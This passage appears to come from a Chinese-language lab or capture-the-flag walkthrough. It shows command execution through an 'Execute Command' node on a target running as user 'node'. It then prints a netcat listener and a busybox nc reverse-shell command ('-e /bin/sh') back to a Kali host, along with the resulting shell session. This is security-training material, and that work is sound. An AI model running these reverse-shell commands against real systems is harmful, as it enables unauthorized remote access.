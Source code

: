 添加`Execute Command`后，双击进去，出现输入框，测试一下是否能执行命令，成功执行，当前用户是`node`

![image.png](image%2064.png)

测试一下是否存在`nc`命令,测试之后提示`busybox` ，我们再使用通过`busybox`来执行`nc`

![image.png](image%2065.png)

`kali`开启监听，并在`Command`框输入`nc`反弹`shell`命令

```python
┌──(root㉿kali)-[~]
└─# nc -lvp 4444
listening on [any] 4444 ...
```

```python
busybox nc 192.168.56.4 4444 -e /bin/sh
```

然后就能接收到靶机弹回来的`shell`了

```python
┌──(root㉿kali)-[~]
└─# nc -lvp 4444
listening on [any] 4444 ...
192.168.56.18: inverse host lookup failed: Host name lookup failure
connect to [192.168.56.4] from (UNKNOWN) [192.168.56.18] 36561
whoami
node
```
